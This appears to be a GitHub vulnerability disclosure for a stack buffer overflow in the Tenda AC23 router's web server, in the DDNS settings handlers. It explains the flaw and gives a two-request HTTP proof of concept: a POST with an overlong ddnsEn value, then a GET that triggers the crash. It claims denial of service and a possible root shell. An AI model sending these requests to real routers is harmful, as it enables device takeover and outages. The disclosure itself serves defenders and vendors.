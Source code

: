 # Tenda AC23 formGetSysToolDDNS stack-based overflow

## 1.Product 

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.jpg)

1. **product information: https://www.tenda.com.cn/** 
2. **firmware download:https://www.tenda.com.cn/download/detail-3420.html**

----

## 2.**Firmware**

**Hardware version:V1.0**

**Software version:V16.03.07.45**

## 3.vulnerability details

The vulnerability is in` /bin/httpd` , the function `formSetSysToolDDNS`, ` formGetSysToolDDNS` . The function `formSetSysToolDDNS` can set nvram val `adv.ddns1.en` to` v22` , **which can be set through POST parameter`ddnsEn`**

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.png)

and in function `formGetSysToolDDNS` , the function calls `GetValue(“adv.ddns1.en”, v11)` to set the string to` v11` which is on the stack. So there is a stack overflow vulnerability. By analyze the funtion GetValue and SetValue , the max size of the string we can get from the function GetValue is `0x5DC` . It’s bigger than the size of`v11 `

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/2.png)

so there is a buffer overflow vulnerability. 

## 4.poc
1. You need to login and **replace the Cookie: password filed in poc**.
2. By sending  poc1 and poc2 (remember to send poc2), it can cause dos and rce. 

```
POST /goform/SetDDNSCfg HTTP/1.1
Host: 192.168.0.1
Content-Length: 641
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/ddns_config.html?random=0.48392112228286877&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adoikcvb
Connection: close
ddnsEn=111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111111111&serverName=noip.com&ddnsUser=a&ddnsPwd=a&ddnsDomain=b.top
```

```
GET /goform/GetDDNSCfg?0.45256296854497835 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/ddns_config.html?random=0.48392112228286877&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adoikcvb
Connection: close
```

**By sending this poc, can achieve the effect of a denial-of-service(DOS) attack**

**Also can write exp to get a stable root shell.**





### 5.Author

*Wangjingping*
